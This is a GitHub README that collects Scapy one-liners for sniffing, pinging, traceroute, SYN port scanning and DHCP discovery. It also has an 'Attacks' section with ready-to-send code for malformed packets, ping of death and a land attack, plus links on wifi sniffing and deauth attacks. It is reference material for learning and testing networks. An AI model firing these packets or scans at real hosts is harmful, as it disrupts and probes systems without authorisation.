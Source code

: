 # uberscapy
Scapy docs, examples, scripts and other stuff

## Contents

docs - diffrent scapy docs

examples - examples for official Scapy usage and more

## WARNiNG: NOT ALL SCRIPTS ARE TESTED! CHECK BEFORE RUNNING!

## Tutorial

Official Scapy usage tutorial is located [here](http://www.secdev.org/projects/scapy/doc/usage.html)

## Simple examples

### Sniff
 
Sniffing on eth0:
```python
    sniff(iface="eth0", prn=lambda x: x.summary())
    sniff(iface="eth0", prn=lambda x: x.show())
```
	
Formated sniff output
```python
    pkts = sniff(prn=lambda x:x.sprintf("{IP:%IP.src% -> %IP.dst%\n}{Raw:%Raw.load%\n}"))
```
	
Identify ports
```python
    a=sniff(filter="tcp and ( port 25 or port 110 )", \
    prn=lambda x: x.sprintf("%IP.src%:%TCP.sport% -> %IP.dst%:%TCP.dport%  %2s,TCP.flags% : %TCP.payload%"))
```
 
### Ping

TCP ping:
```python
	srloop(IP(dst="www.google.com/30")/TCP())
```

TCP ping:
```python
    ans,unans = sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% conteasta") )
```
    
UDP ping
```python
    ans,unans = sr( IP(dst="192.168.1.1-10")/UDP(dport=0) )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% contesta en udp") )
```

ARP ping manual:
```python
	ans,unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2)
	ans.summary(lambda (s,r): r.sprintf("%Ether.src% %ARP.psrc%") )
```

ARP ping built in:
```python
	arping("192.168.1.1")
```
    
Traceroute:
```python
	traceroute(["www.google.com","www.ust.cl","www.terra.cl","www.microsoft.com"],maxttl=20)
	result, unans=_
	result.show()
	# save output
	result.graph(type="ps", target="|lp")
	result.graph(target="> grafico.svg")
```

Advaced traceroute + DNS
```python
	ans,unans = sr(IP(dst="terra.cl",ttl=(1,10))/TCP(dport=53,flags="S"))
	ans.summary( lambda(s,r) : r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}"))
```

Dump traceroute output:
```python
	res,unans = traceroute(["www.ust.cl","www.santotomas.cl"],dport=[80,443],maxttl=20,retry=-2)
	res.graph(type="ps", target="|lp")
	res.graph(target="> grafico.svg")
```

Port scanner:
```python
	res,unans = sr( IP(dst="target")/TCP(flags="S", dport=(1,1024)) )
	res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) )
```

OS fingerprint:
```python
	ans,unans = srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S"))
```

###	Attacks
	
Malformed packets:
	
```python
    send(IP(dst="192.168.1.1", ihl=2, version=3)/ICMP())
```
	
Ping of death:
```python
    send( fragment(IP(dst="192.168.1.1")/ICMP()/("X"*60000)) )
```

Land attack (windows):
```python
    send(IP(src=target,dst=target)/TCP(sport=135,dport=135))
```
 
DHCP discovery:
```python
	conf.checkIPaddr = False
	fam,hw = get_if_raw_hwaddr(conf.iface)
	dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0",dst="255.255.255.255")/UDP(sport=68,dport=67)/BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"])
	ans, unans = srp(dhcp_discover, multi=True)
	ans.display()
```

## Links

http://stackoverflow.com/questions/10818661/scapy-retrieving-rssi-from-wifi-packets

http://hackoftheday.securitytube.net/2013/04/wi-fi-ssid-sniffer-in-12-lines-of.html

http://hackoftheday.securitytube.net/2013/03/wi-fi-sniffer-in-10-lines-of-python.html

http://scholarworks.sjsu.edu/cgi/viewcontent.cgi?article=1191&context=etd_projects

http://pen-testing.sans.org/blog/2011/10/13/special-request-wireless-client-sniffing-with-scapy

http://raidersec.blogspot.com/2013/01/wireless-deauth-attack-using-aireplay.html

http://www.secdev.org/projects/scapy/portability.html
